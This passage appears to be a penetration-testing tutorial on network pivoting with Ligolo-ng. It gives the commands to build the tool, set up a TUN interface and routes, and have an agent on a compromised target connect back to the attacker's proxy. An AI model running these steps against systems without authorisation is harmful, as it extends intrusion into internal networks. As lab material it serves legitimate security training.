

1.  Run `ifconfig` and look for extra interfaces, in this example, we find `ens224`, which connects to a network our current machine can't reach directly.  
    
    
    
2.  To ensure that the `ens224` network is accessible from our attack host, we need to set up Ligolo-ng. If it's not already installed, clone the repository with the following command:
    `git clone https://github.com/nicocha30/ligolo-ng.git`  
    
    
    
3.  Navigate to the ligolo-ng directory and compile the binary agent and proxy using the command:   
    `cd ligolo-ng && go build -o agent cmd/agent/main.go && go build -o proxy cmd/proxy/main.go`  
    
    
    
4.  Alternatively, if you prefer not to build the binary yourself, you can download a [pre-built](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.7.2-alpha) version.  
    
    
    
5.  Create a new TUN interface with the following commands:
    `ip tuntap add user root mode tun ligolo && ip link set ligolo up`  
    
    
    
6.  There are several methods to transfer the agent from your attacker machine to the target. Refer to the File Transfer section for more details.
    
    
    
7.  On your attacker machine, from the directory where the proxy file was built, run:
    `./proxy -selfcert` OR `./proxy -autocert`  
    
    
    
8. Use the agent to establish a connection back to your attacker machine with the following command:  
 	`./agent -connect IP:11601 -ignore-cert`
    
    
    
9.  From the Ligolo-ng terminal window, run `session`, followed by `start `to initiate the session.
    
    
    
10. To route traffic through the Ligolo-ng tunnel, add a new route with the following command:
    `ip route add 172.16.4.0/23 dev ligolo && ip route`  
    
    
    
11. Finally, confirm that pivoting is working by successfully pinging a machine on the second network.
    
    